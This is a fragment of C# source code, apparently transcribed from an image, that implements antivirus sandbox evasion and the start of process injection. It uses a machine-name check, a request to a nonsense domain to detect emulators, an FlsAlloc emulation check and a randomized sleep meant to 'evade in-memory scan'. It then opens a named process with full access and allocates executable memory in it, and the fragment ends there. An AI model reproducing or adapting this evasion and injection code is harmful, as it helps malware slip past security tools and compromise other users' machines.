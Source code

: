                 //Machine name check:
                if (Environment.MachineName != "DEVELOPMENT" && Environment.MachineName != "VICTIM")
                {
                    Console.WriteLine(Environment.MachineName);
                    return;
                }

                //Web request to fake domain check:
                try
                {
                    HttpWebRequest req = (HttpWebRequest)WebRequest.Create("http://sldkfjsdkfjdskfjsldkfjlsdjfyyue.com/");
                    HttpWebResponse res = (HttpWebResponse)req.GetResponse();
                    if (res.StatusCode == HttpStatusCode.OK)
                    {
                        return;
                    }
                }
                catch (WebException we)
                {
                    Console.WriteLine("\r\nWeb Exception as Expected. Error: {0}", we.Status);
                }

                //Another emulated API check:
                IntPtr ptrCheck = FlsAlloc(IntPtr.Zero);
                if (ptrCheck == null)
                {
                    return;
                }

                // Sleep to evade in-memory scan + check if the emulator did not fast-forward through the sleep instruction
                var rand = new Random();
                uint dream = (uint)rand.Next(10000, 20000);
                double delta = dream / 1000 - 0.5;
                DateTime before = DateTime.Now;
                Sleep(dream);
                if (DateTime.Now.Subtract(before).TotalSeconds < delta)
                {
                    Console.WriteLine("Charles, get the rifle out. We're being fucked.");
                    return;
                }
                string processName = args[0];
                Process[] pList = Process.GetProcessesByName(processName);
                if (pList.Length == 0)
                {
                    Console.WriteLine("[-] No such process!");
                    System.Environment.Exit(1);
                }
                int processId = pList[0].Id;
                // 0x001F0FFF = PROCESS_ALL_ACCESS
                IntPtr hProcess = OpenProcess(0x001F0FFF, false, processId);
                IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
